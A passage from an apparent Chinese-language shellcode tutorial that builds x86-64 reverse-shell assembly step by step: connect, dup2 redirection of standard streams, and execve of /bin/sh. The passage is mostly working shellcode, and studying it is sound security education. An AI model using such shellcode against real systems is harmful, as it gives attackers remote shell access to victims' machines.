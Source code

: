 `connect` 函数也接受三个参数。第一个参数是 `sockfd`（来自 `socket` 函数的输出），存储在 RDI 寄存器中。第二个是我们结构的引用，存储在 RSI 寄存器中。第三个参数是我们结构的大小。

让我们获取 `connect` 系统调用号：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep connect
```

前面命令的输出显示在以下截图中：

![](img/00219.gif)

从获得的输出中，我们可以看到系统调用号是 `42`。现在，让我们构建 `connect` 系统调用：

```
xor rdx, rdx
add rdx, 16
xor rax, rax
add rax, 42
syscall
```

现在，`dup2` 函数与之前的相同，只是第一个参数将是 `sockfd`，它已经存储在 RDI 寄存器中；让我们也构建它：

```
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

现在是最后一部分，即 `/bin/sh` 的 `execve` 系统调用：

```
xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```
